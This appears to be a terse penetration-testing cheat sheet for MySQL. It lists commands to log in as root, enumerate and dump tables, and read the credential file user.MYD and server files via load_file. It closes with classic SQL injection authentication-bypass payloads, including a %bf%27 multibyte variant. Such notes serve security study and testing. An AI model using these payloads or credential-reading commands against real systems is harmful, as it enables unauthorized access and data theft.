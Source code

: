 ```
mysql -u root
```

```
show databases;
use [DATABASE];
show tables;
select * from [TABLE];
```

```
mysql -h remotehost -u remoteusername -p
```

```
mysql -u root -p password
```

```
find / -name mysql 2>/dev/null
```

```
strings /var/lib/mysql/mysql/user.MYD
```

```
select load_file('/var/lib/mysql-files/key.txt');
```

![[Pasted image 20230906083443.png]]

```
' 1 or 1=1 --'
```

```
' 1 or 1=1 #'
```

```
SELECT * FROM users WHERE username = 'input' LIMIT 1;
```

```
SELECT * FROM users WHERE username = '' OR 1=1; --' LIMIT 1;
```

```
%bf%27
```

```
%bf%27 or 1=1 --
```

```
' or '1'='1
```

